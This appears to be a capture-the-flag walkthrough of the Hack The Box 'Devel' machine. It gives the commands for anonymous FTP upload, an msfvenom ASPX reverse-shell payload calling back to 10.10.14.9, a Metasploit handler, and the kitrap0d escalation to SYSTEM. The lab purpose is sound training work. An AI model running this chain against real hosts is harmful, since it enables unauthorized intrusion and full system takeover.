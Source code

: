 ![devel](https://user-images.githubusercontent.com/66635295/176747179-515a7195-1782-4254-a173-23b18a86530a.png)

**RECON**
---
**IIS Server (Windows)**

![recon](https://user-images.githubusercontent.com/66635295/176748219-b064f388-d683-4c33-bb29-52c20d8961c2.png)

**Nmap Scan**
<pre>nmap –p- -A -T4 10.10.10.5</pre>
-allports -version -Aggressive

Port 21 allows for anonymous FTP Login

![nmap](https://user-images.githubusercontent.com/66635295/176748164-8d9bc8c3-02b3-4001-9ead-c9a2e7b90d0e.png)

**ENUMERATION**
---
**FTP Login** 
<pre>User: anonymous</pre>
<pre>Pass: anonymous</pre>
The connection allows files to be uploaded

![ftp](https://user-images.githubusercontent.com/66635295/176749228-6da8577b-6f75-41f9-a2a1-9ec36a6cc287.png)

**Msfvenom Payload**
<pre> -p windows/meterpreter/reverse_tcp LHOST=10.10.14.9 LPORT=4444 -f aspx > ex aspx </pre>
![msf](https://user-images.githubusercontent.com/66635295/176749731-c01f10d3-5894-4363-ab9c-08b91a0c0d61.png)

**Metasploit Listner**
<pre>use exploit/multi/handler</pre>
<pre>set payload windows/meterpreter/reverse_tcp</pre>
<pre>set LHOST 10.10.14.9</pre>
![msf consoel](https://user-images.githubusercontent.com/66635295/176750030-1de89e38-2ce4-46b8-9934-5bf80018e2b5.png)

FTP Upload
<pre>binary</pre>
Binary is more reliable than ASCII

![binary](https://user-images.githubusercontent.com/66635295/176751701-f44d6a90-93e3-4937-ab12-c4d92f0137e0.png)

<pre>put ex.aspx</pre>
Uploads the file to 10.10.10.5/ex.aspx

![ex](https://user-images.githubusercontent.com/66635295/176751874-9fdd0d59-5380-40a9-b910-e72ebe2600ac.png)

**PRIVILEGE ESCALATION**
---
**Meterpreter session**
<pre>getuid</pre>
Accessing the webpage provides a session to the application server  

![succ](https://user-images.githubusercontent.com/66635295/176753250-c97e1bdb-8d68-4274-8b61-4232a3343fca.png)

**Exploit suggestor**
<pre>backround</pre>
<pre>use post/multi/recon/local_exploit_suggester</pre>
<pre>set session 1</pre>
<pre>run</pre>
![sugg](https://user-images.githubusercontent.com/66635295/176753936-0f153344-9e85-4c34-a1d5-0e5b7cf8a6f9.png)

**Exploit list**

13 possible exploits found
![exploit](https://user-images.githubusercontent.com/66635295/176754492-af9345d4-e291-4828-aba1-9ff9cbf18696.png)

Exploit
<pre>use exploit windows/local/ms10_015_kitrap0d</pre>
<pre>set options</pre>
<pre>run</pre>
Creates a new session with SYSTEM privileges
![shelld](https://user-images.githubusercontent.com/66635295/176754686-000b763f-7ae4-43ab-8bcd-01692a5a11cc.png)
![swag](https://user-images.githubusercontent.com/66635295/176754750-d8f63b76-aed9-4088-b88e-ea164f55d797.png)

**Root shell**
<pre>shell</pre>
![shellll](https://user-images.githubusercontent.com/66635295/176754848-78819fce-4e69-40b0-9bb1-0dd217271dd8.png)

Flags for user and root on desktop
![flags](https://user-images.githubusercontent.com/66635295/176754936-eedc3dbf-0a4a-4f8a-8e92-c9c973ec486d.png)
